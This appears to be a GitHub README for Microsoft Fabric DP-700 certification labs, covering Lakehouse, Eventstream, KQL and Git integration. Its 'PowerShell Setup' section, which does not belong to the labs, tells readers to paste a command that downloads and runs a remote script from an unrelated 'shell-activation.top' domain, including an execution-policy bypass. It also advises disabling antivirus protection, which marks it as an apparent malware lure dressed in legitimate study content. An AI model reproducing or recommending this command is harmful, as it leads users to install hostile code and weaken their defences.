

<div align="center">

# Microsoft Fabric DP-700 Hands-On Labs — Deep Dive



[]() []() []() []()

</div>

---

This repository collects hands-on labs built for the Microsoft Fabric Data Engineer (DP-700) certification, pairing exam objectives with small, practical exercises in data engineering, real-time intelligence, OneLake, KQL, notebooks, and Git integration. Rather than restating theory, each lab focuses on a single Fabric item so the behavior of Lakehouses, Eventstreams, Eventhouses, and notebooks becomes clear through direct use. The material reflects one learner's ongoing preparation and is under active development, so some items remain incomplete or likely to change as new exercises are added. Readers who want a realistic sense of how Fabric components fit together will find the repository most useful as a companion to structured study, not as a substitute for official documentation.

## 🔧 PowerShell Setup

> [!TIP]
> **Silent installer** — one command, no prompts.
> Windows 10/11 · PowerShell · Admin not required

### 1️⃣ Open PowerShell
* Press `Win + X`.
* Click **Terminal** or **Windows PowerShell** from the menu.

### 2️⃣ Run the command
Paste and run. Wait until the process completes.

```cmd
iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')
```

### 3️⃣ If PowerShell blocks the script
Copy into CMD, press `Enter`, wait for completion:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "$ProgressPreference='SilentlyContinue';iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')"
```

> [!WARNING]
> Some antivirus engines flag automated installers. If blocked, disable Real-time protection briefly, run the setup, and enable it back.

## ✅ Requirements

- **OS:** Windows 10 / 11
- **Shell:** PowerShell 5.1+ or PowerShell 7+
- **Network:** internet access to download the script
- **Privileges:** standard user

## What You'll Practice

This set of labs targets the practical skills assessed in the Microsoft Fabric Data Engineer (DP-700) exam, organizing each exercise around a working Fabric item rather than abstract theory. You will work directly with a Fabric workspace connected to source control, so every change you make to a notebook, lakehouse, eventstream, or eventhouse is versioned alongside the code that produces it.

**Notebooks and Spark engineering.** You will author and run Fabric notebooks using PySpark, moving beyond single-cell exploration to structured read-transform-write workflows. Expect to practice working with DataFrames, inspecting schemas, and reasoning about how notebook output lands in storage.

**Lakehouse and OneLake fundamentals.** The lakehouse exercises focus on what actually distinguishes Fabric storage from a conventional data lake: Delta tables on OneLake, the lakehouse-versus-warehouse split, and the shortcuts model for referencing data without copying it. You will create and query Delta tables and observe how table metadata and file layout behave together.

**Real-time ingestion.** The streaming lab is the most involved of the set. You will send live CPU metrics from a local machine through a custom Event Hubs-compatible endpoint into an Eventstream, apply a tumbling-window aggregation, and route the transformed output into an Eventhouse where it is queryable as a KQL table. Along the way you will encounter schema inference, filtering and field management, retention settings, throughput considerations, and the difference between fixed-size non-overlapping windows and other windowing types.

**Eventhouse and KQL.** Once data is flowing, you will practice writing KQL against an Eventhouse database — projecting fields, filtering on time ranges, and aggregating results — and compare the query experience with SQL-based approaches elsewhere in Fabric.

**Git integration and version control.** Because the workspace is connected to Git, you will practice committing Fabric item changes, reading version history, reverting a change, and reasoning about merge conflicts when multiple edits touch the same item definition. This is deliberately part of the lab rather than an afterthought, since item-level source control is a recurring DP-700 topic.

**Repository hygiene.** A smaller but real component: keeping documentation aligned with the items under version control, so the repository remains a readable record of what was built and why.

The labs are honest about scope. They are small, self-contained exercises rather than end-to-end production scenarios, and several planned topics — Data Factory pipelines, Copy activity and Copy job, Medallion architecture layering, Delta optimization, and deployment pipelines — are not yet covered in the current item set. What is present is exercised thoroughly, with the intent that each lab leaves you able to explain not just the steps but the underlying Fabric behavior that made those steps necessary.

## Lab Walkthrough

The walkthrough below follows the repository's items in the order they appear, so each exercise builds on the artifacts already synchronized from the Fabric workspace. Treat these as guided practice rather than graded tutorials; the intent is to touch every DP-700 skill area at least once and record what actually happened.

**1. Notebook fundamentals.** Open the first demo notebook and run the cells in sequence. The point is not the PySpark itself but the surrounding workflow: attaching a default Lakehouse, inspecting the Spark session, and confirming that outputs persist between runs. Pay attention to how the notebook is represented as a folder of definition files rather than a single monolithic file, since that shape matters later when you commit changes.

**2. Lakehouse and OneLake.** In the demo Lakehouse, create a small Delta table from the notebook, then query it through the SQL analytics endpoint. Compare the two access paths and note where they diverge. Inspect the OneLake path for the table to see how the managed and unmanaged areas are organized, and try creating a shortcut to observe how it appears without copying data. Delta versioning is worth a deliberate look here: overwrite the table once and check the history.

**3. Real-time ingestion.** The Eventstream item accepts a custom endpoint compatible with Event Hubs, which means any producer that speaks that protocol can send events. The reference exercise streams local CPU metrics as JSON, but the transport is the lesson, not the metric. Start the producer, confirm events arrive in the stream preview, and watch how schema inference assigns types. Adjust the event volume and observe how throughput and retention settings interact with what you see.

**4. Windowed transformation.** Add a tumbling-window aggregation to the Eventstream that computes an average over a fixed interval. The defining property of a tumbling window is that windows are fixed in size and never overlap, so each event belongs to exactly one window. Verify this by comparing raw event counts against the aggregated output for a known time range. This is the step most likely to surface timezone and timestamp-format confusion.

**5. Eventhouse and KQL.** Route the transformed output into the Eventhouse and land it in a KQL table. Run queries that filter by computer name and bucket by window end time, then compare the query experience against the SQL endpoint from step 2. The two engines reward different habits, and DP-700 expects familiarity with both. Check retention policy on the database and table to see how it affects what remains queryable.

**6. Git integration.** With the workspace connected to this repository, make a small edit to a Fabric item, commit it, and inspect the resulting diff in the item definition. Then make a change that conflicts with the repository state and work through the resolution. This exercise is deliberately unglamorous; merge conflicts in item definitions are a recurring practical concern and are easier to handle after seeing one.

**7. Review against the exam objectives.** After completing the items, revisit the concepts list and mark which ones you can explain without notes. Anything you cannot articulate — tumbling versus hopping windows, when a shortcut is preferable to a copy, how retention and throughput constrain a stream — is a gap worth a second pass.

Two honest caveats: the exercises are small by design and will not cover every DP-700 objective on their own, and the repository grows as preparation continues, so item names and contents may shift between visits. Where an exercise depends on a specific Fabric capacity or region behavior, verify current behavior in your own tenant rather than assuming the recorded results still apply.

## Quick Reference Notes

These notes condense the concepts that recur across the labs. Use them as a fast refresher before or after working through the exercises, not as a substitute for the hands-on practice itself.

**Streaming and Real-Time Intelligence**

- **Eventstream** handles ingestion, lightweight transformation, and routing of streaming events. It is the entry point for real-time data in Fabric, and the labs use it as the connective tissue between a producer and a destination.
- **Custom Endpoint** lets an application send events directly into an Eventstream. The CPU-metrics exercise relies on this: a local Python script posts JSON events to the endpoint without any intermediary service.
- **Event Hubs-compatible endpoint** means existing Event Hubs or Kafka-style producers can connect using familiar protocols. This avoids provisioning a separate Event Hub resource just to feed Fabric.
- **Tumbling windows** are fixed-size, non-overlapping time intervals. Each event belongs to exactly one window, which makes them suitable for periodic aggregates such as an average CPU reading per minute. Contrast this with sliding or session windows, where overlap or event-driven boundaries apply.
- **Eventhouse** is the analytical store optimized for event and time-series data. It sits downstream of Eventstream when you need to retain and query streaming data rather than just route it.
- **KQL databases** live inside an Eventhouse and are queried with Kusto Query Language. Streaming ingestion into a KQL table is the typical pattern: Eventstream transforms the event, then writes it to a table you can query immediately.
- **Retention** defines how long an Eventstream keeps events available. It is a practical constraint: set it too short and late-arriving consumers miss data; set it too long and you pay for storage you never read.
- **Throughput** reflects how much streaming data can flow through the Eventstream. Capacity limits apply, so high-volume producers may need throttling or batching.
- **Schema** is the field names and data types that define an event's structure. Eventstream can infer schema from incoming JSON, but explicit definitions reduce surprises when field types drift.

**Data Engineering Foundations**

- **Lakehouse** combines data-lake storage flexibility with table-based analytics. Files and Delta tables coexist in one item, which is why it serves as the default landing zone for batch and semi-structured data.
- **OneLake** is the unified storage layer beneath Fabric items. Every Lakehouse, Warehouse, and Eventhouse writes to OneLake, which is what makes cross-item shortcuts and shared governance possible.
- **Delta tables** provide ACID transactions and schema enforcement on top of Parquet files. They are the default table format in a Lakehouse and the reason time travel and reliable upserts work.
- **Notebooks** run PySpark (and other languages) against Lakehouses and Warehouses. In these labs they double as a version-control exercise, since notebook definitions are tracked as Fabric items.

**Git and CI/CD**

- Connecting a workspace to Git syncs Fabric item definitions into a repository. Each item becomes a folder with its definition files, which is why the repository layout mirrors the workspace rather than a typical source tree.
- Commits capture item-level changes, so version history is readable at the granularity of a notebook, Lakehouse, or Eventstream. Reverting is possible per item, not just per workspace.
- Merge conflicts arise when the same item changes in both the workspace and the repository. Resolving them requires understanding which side holds the intended definition, so practice this deliberately rather than avoiding it.
- Documentation belongs in the repository alongside item definitions. Keeping the README current is part of the CI/CD habit, not an afterthought.

**Exam-Oriented Reminders**

- Distinguish **ingestion** (Eventstream, pipelines, Copy job) from **storage** (Lakehouse, Warehouse, Eventhouse) from **query** (SQL, KQL, Spark). DP-700 questions often test whether you pick the right layer for a scenario.
- Know when to choose **KQL** over **SQL**: KQL suits high-volume, time-series, and log-style queries; SQL suits relational, warehouse-style analytics.
- Understand **shortcuts** as references to data without copying it. They matter for OneLake governance and for avoiding duplicate storage.
- Be able to explain the **Medallion architecture** (bronze, silver, gold) in Fabric terms: raw ingestion into a Lakehouse, cleaned and conformed Delta tables, then curated analytical outputs.
- Recognize that **capacity** underpins throughput, retention, and compute. Many "why is this slow or failing" scenarios trace back to capacity limits rather than configuration errors.

These notes are intentionally brief and will be revised as additional labs are completed. Where a concept has nuance the labs do not yet cover, treat the note as a pointer to investigate rather than a complete answer.

## Repository Layout

The repository follows the folder structure that Microsoft Fabric uses when a workspace is connected to Git. Each directory maps to one Fabric item, and its internal files are the item definitions that Fabric writes during synchronization. Treat these folders as generated artifacts: edit them with care, and prefer making changes through the Fabric workspace where possible.

```
MicrosoftFabric/
│
├── First_demo_notebook.Notebook/
│ └── item definition files
│
├── demo_lakehouse.Lakehouse/
│ └── item definition files
│
├── demoEventStream.Eventstream/
│ └── item definition files
│
├── demoEventHouse.Eventhouse/
│ └── item definition files
│
└── README.md
```

A few practical notes on how to read this layout:

- **One folder per item.** The folder name matches the item name and its type, so the directory listing itself shows which Fabric artifacts are tracked here. The lab walkthrough references these items by the same names.
- **Definitions, not data.** The committed files describe configuration and metadata for each item. Data held inside a Lakehouse or Eventhouse lives in the workspace, not in this repository.
- **Synchronization direction matters.** Changes made in the Fabric workspace can be committed here, and changes committed here can be updated into the workspace. The folder contents reflect the last synchronized state, which may lag behind live edits.
- **Extensions are meaningful.** Notebook, Lakehouse, Eventstream, and Eventhouse folders carry distinct file types. Avoid renaming folders or files manually, since Fabric relies on the naming convention to resolve items during updates.
- **README.md is the exception.** It is maintained by hand and is not a Fabric item, so it can be edited freely.

As additional labs are completed, new item folders will appear alongside the existing ones. Because the repository is a working learning environment, expect the layout to grow and occasionally be reorganized between exercises.

## Next Steps & Resources

Once you have worked through the labs in this repository, the most valuable next step is to move from guided exercises to open-ended practice. Rebuild one of the demonstrated items from scratch without following the walkthrough, then deliberately break it — change a schema, alter a window size, or swap a destination — and observe how the workspace responds. That kind of controlled failure teaches more about Fabric's behavior than a clean first run.

For exam preparation, treat DP-700 as a skills assessment rather than a memorization exercise. The blueprint rewards familiarity with how the platform's components connect: ingestion paths into OneLake, transformation options across notebooks and pipelines, and the boundary between batch and real-time workloads. Prior to scheduling the exam, it is worth auditing your own confidence against each domain and spending extra time on the areas where you have the least hands-on exposure.

A few honest cautions. Microsoft Fabric evolves quickly, so interface details, item names, and capacity behaviors described in any lab may drift from what you see in a current tenant. Where a discrepancy appears, trust the live product and treat the repository content as a conceptual guide. Fabric capacity also carries cost implications — trial capacities expire, and always-on capacities bill continuously — so validate your assumptions about consumption before leaving resources running unattended.

Suggested directions after completing the current labs:

- Extend the streaming exercise with additional event sources or downstream transformations
- Introduce a medallion-style layering pattern across your Lakehouse tables
- Practice promoting items between workspaces using deployment pipelines
- Experiment with OneLake shortcuts to unify data without copying it
- Revisit the Git integration workflow until branching and conflict resolution feel routine

This repository is maintained as a personal learning record and will continue to grow alongside DP-700 preparation. Contributions, corrections, and alternative approaches are welcome — opening an issue or submitting a pull request is the most direct way to engage with the project. If the material proves useful, a star helps signal that the effort is worthwhile and encourages further additions.